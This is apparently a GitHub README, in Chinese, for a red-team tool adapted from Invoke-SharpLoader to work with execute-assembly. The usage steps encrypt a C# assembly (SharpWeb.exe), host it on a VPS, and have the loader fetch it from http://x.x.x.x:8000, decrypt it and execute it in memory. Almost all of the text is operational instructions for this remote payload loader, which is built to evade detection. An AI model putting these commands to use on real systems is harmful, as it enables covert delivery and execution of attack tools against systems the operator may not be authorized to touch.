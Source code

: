 原版项目：https://github.com/S3cur3Th1sSh1t/Invoke-SharpLoader

根据该项目进行改造c#代码，以适配execute-assembly使用，更方便红队日常工作
项目编译
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe Invoke-SharpLoader.csproj


使用方法
需要先加密
Invoke-SharpEncrypt -file C:\c#程序集\SharpWeb.exe -password mypassword -outfile C:\c#程序集\SharpWeb.enc
放到vps的远端访问目录  
Invoke_SharpLoader.exe http://x.x.x.x:8000/SharpWeb.enc mypassword args
![image](https://github.com/user-attachments/assets/44dd4fec-c0fa-44d3-a038-04aac94b0052)

